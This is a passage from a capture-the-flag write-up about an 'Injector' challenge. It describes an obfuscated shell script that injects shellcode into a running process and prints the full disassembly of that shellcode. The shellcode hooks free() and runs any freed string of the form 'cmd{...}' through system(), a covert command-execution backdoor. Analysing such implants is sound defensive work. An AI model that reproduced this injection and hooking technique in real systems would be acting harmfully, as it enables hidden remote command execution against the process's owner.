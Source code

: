 Flag: `CS{if_computers_could_think_would_they_like_spaces?}`

### Injector

Here we are given an image of a machine and an address where the same machine is running. In the temp directory we find the file "/tmp/.hax/injector.sh". The file is an obfuscated shell script which uses ProcFS to resolve a few symbols, insert the resulting addresses into a piece of shellcode and then injects the shellcode into memory. The disassembly of the shellcode looks like this:

{% highlight asm %}
   0:   48 b8 41 41 41 41 41    movabs rax, 0x4141414141414141 # __free_hook
   7:   41 41 41 
   a:   41 55                   push   r13
   c:   49 bd 43 43 43 43 43    movabs r13, 0x4343434343434343 # free
  13:   43 43 43 
  16:   41 54                   push   r12
  18:   49 89 fc                mov    r12, rdi
  1b:   55                      push   rbp
  1c:   53                      push   rbx
  1d:   4c 89 e3                mov    rbx, r12
  20:   52                      push   rdx
  21:   ff d0                   call   rax
  23:   48 89 c5                mov    rbp, rax
  26:   48 b8 44 44 44 44 44    movabs rax, 0x4444444444444444 # malloc_usable_size
  2d:   44 44 44 
  30:   48 c7 00 00 00 00 00    mov    QWORD PTR [rax], 0x0
  37:   48 83 fd 05             cmp    rbp, 0x5
  3b:   76 61                   jbe    0x9e
  3d:   80 3b 63                cmp    BYTE PTR [rbx], 0x63
  40:   75 54                   jne    0x96
  42:   80 7b 01 6d             cmp    BYTE PTR [rbx+0x1], 0x6d
  46:   75 4e                   jne    0x96
  48:   80 7b 02 64             cmp    BYTE PTR [rbx+0x2], 0x64
  4c:   75 48                   jne    0x96
  4e:   80 7b 03 7b             cmp    BYTE PTR [rbx+0x3], 0x7b
  52:   75 42                   jne    0x96
  54:   c6 03 00                mov    BYTE PTR [rbx], 0x0
  57:   48 8d 7b 04             lea    rdi, [rbx+0x4]
  5b:   48 8d 55 fc             lea    rdx, [rbp-0x4]
  5f:   48 89 f8                mov    rax, rdi
  62:   8a 08                   mov    cl, BYTE PTR [rax]
  64:   48 89 c3                mov    rbx, rax
  67:   48 89 d5                mov    rbp, rdx
  6a:   48 8d 40 01             lea    rax, [rax+0x1]
  6e:   48 8d 52 ff             lea    rdx, [rdx-0x1]
  72:   8d 71 e0                lea    esi, [rcx-0x20]
  75:   40 80 fe 5e             cmp    sil, 0x5e
  79:   77 1b                   ja     0x96
  7b:   80 f9 7d                cmp    cl, 0x7d
  7e:   75 08                   jne    0x88
  80:   c6 03 00                mov    BYTE PTR [rbx], 0x0
  83:   41 ff d5                call   r13
  86:   eb 0e                   jmp    0x96
  88:   48 83 fa 01             cmp    rdx, 0x1
  8c:   75 d4                   jne    0x62
  8e:   bd 01 00 00 00          mov    ebp, 0x1
  93:   48 89 c3                mov    rbx, rax
  96:   48 ff c3                inc    rbx
  99:   48 ff cd                dec    rbp
  9c:   eb 99                   jmp    0x37
  9e:   48 b8 42 42 42 42 42    movabs rax, 0x4242424242424242 # system
  a5:   42 42 42 
  a8:   4c 89 e7                mov    rdi, r12
  ab:   ff d0                   call   rax